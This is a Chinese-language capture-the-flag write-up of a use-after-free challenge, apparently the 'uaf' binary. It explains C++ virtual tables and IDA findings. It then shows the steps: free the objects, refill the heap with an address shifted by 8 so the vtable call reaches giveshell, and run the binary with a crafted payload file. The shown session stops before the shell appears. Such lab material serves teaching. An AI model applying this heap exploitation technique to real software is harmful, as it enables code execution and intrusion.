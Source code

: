 ```c
```

### 虚函数

源代码很好理解，这里再补充点c++虚函数有关的知识
- 每个类都有一张虚函数表
- 虚表是一个指针数组，其元素是虚函数的指针
- 具有虚函数表的每个实例都在对象实例最前面保存一个指向虚函数表的指针。这意味着我们通过对象实例的地址得到这张虚函数表，然后就可以遍历其中函数指针，并调用相应的函数。

根据源代码可以画出这张图：

![](http://o6uyyks1m.bkt.clouddn.com/oldHuman.png)

### IDA分析

整个代码的逻辑源代码已经讲得很清楚了

但是细节还是要IDA来

![](http://o6uyyks1m.bkt.clouddn.com/olduaf1.PNG)

Human \*v13;
Human \*v14;

所以上图黄色部分就是调用man和woman的introduce函数，这是一个很重要的点。

现在明确一下思路：

1. 先delete m和w
2. 再用自己构造的数据填充data，目的修改虚表指针替换introduce函数为giveshell函数
3. 调用introduce函数giveshell

解决细节问题：
1. 看到case1，先调用m的introduce函数，后调用w的introduce函数，那么我们就要让两个对象都有值。所以优先选择拿m下手
2. 怎么替换函数？前面知道\*v13就是m的虚表指针，\*\*v13就是giveshel的地址，\*(\*v13+8)就是introduce的地址。我们可以控制\*v13的值，那么我们把\*v13=原\*v13-8,就实现了移花接木。

就剩下寻找v13的虚表指针了

ctrl+e可以看到有vtable for man，这就是man这个类的虚函数表

我们在gdb中跟踪一下，发现0000000000401570确实是giveshell的函数指针，这里确认ida的分析是对的。

现在我们已经知道\*v13的值了只需要把它减8就可以了

### 具体操作

```bash
uaf@ubuntu:~$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'+'A'*16" > /
tmp/ss
uaf@ubuntu:~$ ./uaf 24 /tmp/ss
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
```